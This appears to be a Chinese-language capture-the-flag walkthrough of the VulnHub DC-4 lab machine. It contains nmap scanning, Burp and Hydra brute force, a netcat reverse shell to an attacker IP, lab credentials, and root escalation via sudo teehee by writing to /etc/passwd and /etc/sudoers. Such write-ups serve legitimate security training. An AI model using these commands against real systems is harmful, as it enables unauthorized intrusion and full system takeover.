



# DC 4

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-4,313/
## 知识点

- 反弹shell
- SSH爆破
- SUID-teehee提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.135
```

扫出22和80端口


## 漏洞利用

利用burpsuite暴力破解得到admin与happy，登录后发现存在执行代码的功能点


抓包尝试命令whoami


尝试反弹shell

```bash
nc -lvp 4444 # kali
nc -nv 10.30.0.81 4444 -e /bin/bash # 目标
nc+-nv+10.30.0.81+4444+-e/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```



```bash
cd /home/jim/backups
cat old-passwords.bak # 是密码表，直接用hydra对jim用户来爆破SSH密码
hydra -l jim -P password.txt ssh://10.30.0.135
```


获得账号密码：jim jibril04

```bash
ssh jim@10.30.0.135
ls
cat mobx # root发给jim的邮件，提示看邮箱
cat /var/mail/jim
```


charles | ^xHhA&hvim0y
```bash
ssh charles@10.30.0.135
sudo -l
```


说明charles用户可以使用sudo权限运行teehee命令，可以查看这个命令能做什么：可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限
```
teehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```

## 参考链接

- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC4-WalkThrough.md
- http://www.kxsy.work/2021/07/27/shen-tou-dc-4/